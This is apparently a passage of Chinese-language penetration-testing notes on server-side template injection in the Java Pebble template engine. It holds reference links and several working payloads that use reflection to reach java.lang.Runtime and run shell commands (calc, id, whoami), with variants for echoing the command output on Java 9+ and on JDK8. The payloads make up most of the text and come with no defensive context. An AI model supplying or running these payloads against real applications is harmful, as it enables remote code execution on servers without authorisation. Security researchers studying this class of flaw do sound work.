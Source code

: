 ### bypass

如果配置不当，依然会造成安全问题：

https://xz.aliyun.com/t/4846

https://www.freebuf.com/articles/web/287319.html

https://paper.seebug.org/1304/

## Pebble

https://www.kumamon.fun/server-side-template-injection-on-the-example-of-pebble/

https://juejin.cn/post/6844904048483647495

exp

```
{% set bytes = (1).TYPE.forName('java.lang.Runtime').methods[6].invoke(null,null).exec("calc")%}
```

exp（Java 9+）

```
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```

官方使用：

https://pebbletemplates.io/wiki/guide/basic-usage/

尝试找一种jdk8的回显 exp  .....

**目前只能这样**

```
{% set out = (1).TYPE.forName('java.lang.Runtime').methods[6].invoke(null,null).exec("whoami").inputStream %}
{{out.read()}}{{out.read()}}{{out.read()}}{{out.read()}}{{out.read()}}{{out.read()}}{{out.read()}}{{out.read()}}{{out.read()}}
```

更新

```java
{% set out = (1).TYPE.forName('java.lang.Runtime').methods[6].invoke(null,null).exec("whoami").inputStream %}
[{% for i in range(1,99) %}{% set byte = out.read() %}{{ byte }},{% endfor %}]
```
